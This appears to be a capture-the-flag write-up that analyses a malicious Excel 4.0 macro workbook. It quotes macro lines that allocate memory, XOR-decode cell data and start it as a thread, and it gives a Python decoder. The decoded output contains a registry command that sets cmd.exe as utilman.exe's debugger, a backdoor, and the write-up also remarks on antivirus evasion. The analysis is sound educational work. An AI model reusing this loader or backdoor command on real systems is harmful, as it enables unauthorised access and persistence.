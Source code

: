 First I unzipped the xlsm document and picked it apart in a text editor, looking for interesting stuff in the xml outputs. Found:

`
<mc:Choice Requires="x15"
<x15ac:absPath url="C:\Users\wild\Documents\HTB_Challenges\CA-CTF-2022\free_services\local\" xmlns:x15ac="http://schemas.microsoft.com/office/spreadsheetml/2010/11/ac"/
</mc:Choice
</mc:AlternateContent
<xr:revisionPtr revIDLastSave="0" documentId="13_ncr:1_{57578AAA-AC9F-4195-8CF1-0CEC0153C5BD}" xr6:coauthVersionLast="47" xr6:coauthVersionMax="47" xr10:uidLastSave="{00000000-0000-0000-0000-000000000000}"/
<bookViews
<workbookView xWindow="-120" yWindow="-120" windowWidth="29040" windowHeight="15840" activeTab="1" xr2:uid="{4430E66F-0907-41B8-9086-199DA6C489AC}"/
[...]
`
in sharedStrings:
`
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="2" uniqueCount="2"><si><t>=CALL("Kernel32","CreateThread","JJJJJJJ",0, 0, R2C6, 0, 0, 0)</t></si><si><t>HALT()</t></si></sst>
`
There is also a Macro workbook:

Tried to understand what each line is doing here, took a couple notes:
`
A1=select(E1:G258) - Selects the cells with data
A2=call("Kernel32","VirtualAlloc","JJJJJ",0,386,4096,64) - Allocates an amount of bytes
A3=set.value(C1, 0) - Sets C1 to 0 initially
A4=for("counter",0,772,2)   0-772 step 2   (772 bytes in total for E1:G258 (774-2 blank), skip every other!)
A5=set.value(B1,CHAR(BITXOR(active.cell(),24)))   Sets (B1) to a char ( Xor:(active.cell^24)  
A6=call("Kernel32","WriteProcessMemory","JJJCJJ",-1, A2 + C1,β1, LEN(β1), 0) Writes process memory - (Not sure the other stuff?)
A7=set.value(C1, C1 + 1)  Add 1 to C1 for every other step so 386
A8=select(, "RC[2]")    RC[2] is two columns past the current position. (not sure?)
A9=next()
A10=CALL("Kernel32","CreateThread","JJJJJJJ",0, 0, R2C6, 0, 0, 0)  R2C6 is 2 rows down, 6 columns right..
A11=workbook.activate("Sheet1")
HALT()
`
Searched around what this might be doing, so I can figure out the params to CreateThread, etc.  


Found some code that looks oddly similar in the sharpshooter project on github:

https://github.com/mdsecactivebreach/SharpShooter/blob/master/modules/excel4.py

Wow, did not know about Excel 4.0 SYLK files (SLK pre-VBA macros)! Amazing, looks like that is what this is.

Found some basic explanations of what this code is doing here:
https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/

There was a lot more interesting talk about how this can evade AV easily, and I read up on these and SYLK files.. They were still relevant as of 2021 even it appears.. Great stuff to know!

Then I felt comfortable enough to break it down line by line and write some quick python to see what it ends up with before executing.

I saved out the cells E1:G258 as a CSV file in LibreCalc, called it mac.csv.

mac.py
`
import csv

def readcsv(filename):
 values=[]
 print("Reading file "+filename+":")
 with open(filename, mode='r') as csv_file:
   csv_reader = csv.reader(csv_file)
   line_count = 0
   for row in csv_reader:
     if row:
       for col in row:
         if col:
           #print(col+"\t",end="")
           values.append(col)
     else:
       print("no row\nx")
     line_count += 1
 return values

# A1=select(E1:G258)
# A2=call("Kernel32","VirtualAlloc","JJJJJ",0,386,4096,64)
# A3=set.value(C1, 0)
# A4=for("counter",0,772,2)   0-772 step 2   (772 bytes in total for E1:G258 (774-2 blank), skip every other!)
# A5=set.value(B1,CHAR(BITXOR(active.cell(),24)))   Sets (B1) to a char ( Xor:(active.cell^24)
# A6=call("Kernel32","WriteProcessMemory","JJJCJJ",-1, A2 + C1,β1, LEN(β1), 0) Writes process memory -
# A7=set.value(C1, C1 + 1)  Add 1 to C1 for every other step so 386
# A8=select(, "RC[2]")    RC[2] is two columns past the current position.
# A9=next()
# A10=CALL("Kernel32","CreateThread","JJJJJJJ",0, 0, R2C6, 0, 0, 0)  R2C6 is 2 rows down, 6 columns right..
# A11=workbook.activate("Sheet1")

values=[]
bytes=[]
values=readcsv("mac.csv")
for x in range(0,772,2):
 v=values[x]
 b1=chr(int(v)^24)
 bytes.append(b1)

for b in bytes:
 print(b,end='')
`

Ran it, looks good!! Output:

`
Reading file mac.csv:
üè` å1ÀdP0R
²Ph1oÿÕ»ðµ¢Vh¦½ûàu»GrojSÿÕREG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f;echo "HTB{1s_th1s_g4l4xy_l0st_1n_t1m3??!}"
`

